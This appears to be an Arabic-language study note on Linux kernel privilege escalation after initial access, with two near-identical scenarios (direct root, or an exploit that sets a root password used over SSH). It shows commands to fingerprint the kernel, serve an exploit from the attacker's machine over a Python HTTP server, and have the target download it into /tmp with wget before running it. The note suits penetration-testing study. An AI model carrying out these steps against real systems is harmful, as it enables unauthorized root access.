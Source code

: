 قبل م تعمل اي حاجه في ال Post-Exploitation  
ابدا بال Linux kernel exploits

# اول سيناريوا انك هتنزل ثغره وثغره دي هتخليك root علي طول

## 1. اول حاجه تعملها انك تعمل الامر ده علشان تعرف نوع جهاز المستخدم 

```
uname -a
```

## 2. ثم تعمل اي الاوامر دي علشان تعرف معلومات علي ال kernel اكثر 

```
lsb_release -a
```
 
 بالاوامر دي انت عرفت معلومات كثير علي ال os

## 3. روح اعمل exploit علي معلومات دي بال [[manual Exploitation]]


## 4. # بعد م نزلت الثغره انت محتاج تشغلها علي جهاز ال target

### 1. ## بروح اعمل ال ip بتاعي يكون موقع 
```
python3 -m http.server
```

### 2. بخش جوه المجلد tmp ليه لانه بيعمل الاوامر منغير permetions
```
cd tmp
```



### 3. بروح اخلي الtarget ينزل ملف الثغره من الموقع بتاعي 

```
wget http://192.168.230.251:8000/9542.c
```

### 4.  شغل الثغره بقي حسب نوع لغه الثغره

شوف الطريقه من ال [[manual Exploitation]]


---

# ثاني سيناريوا انك هتنزل ثغره وثغره دي هتخليك تحط باسورد لل root


## 1. اول حاجه تعملها انك تعمل الامر ده علشان تعرف نوع جهاز المستخدم 

```
uname -a
```

## 2. ثم تعمل اي الاوامر دي علشان تعرف معلومات علي ال kernel اكثر 

```
lsb_release -a
```
 
 بالاوامر دي انت عرفت معلومات كثير علي ال os

## 3. روح اعمل exploit علي معلومات دي بال [[manual Exploitation]]




## 4. # بعد م نزلت الثغره انت محتاج تشغلها علي جهاز ال target

### 1. ## بروح اعمل ال ip بتاعي يكون موقع 
```
python3 -m http.server
```

### 2. بخش جوه المجلد tmp ليه لانه بيعمل الاوامر منغير permetions
```
cd tmp
```



### 3. بروح اخلي الtarget ينزل ملف الثغره من الموقع بتاعي 

```
wget http://192.168.230.251:8000/9542.c
```

### 4.  شغل الثغره بقي حسب نوع لغه الثغره

شوف الطريقه من ال [[manual Exploitation]]

### 5. وانت بتشغل الثغره هتلاقي بيقولك اعمل باسورد لل root مثال :
![[Pasted image 20250315173114.png]]
انت اللي عملت الباسورد ف بتروح لل ssh وتحاول تخش باسم ال root والباسورد اللي انا عملته 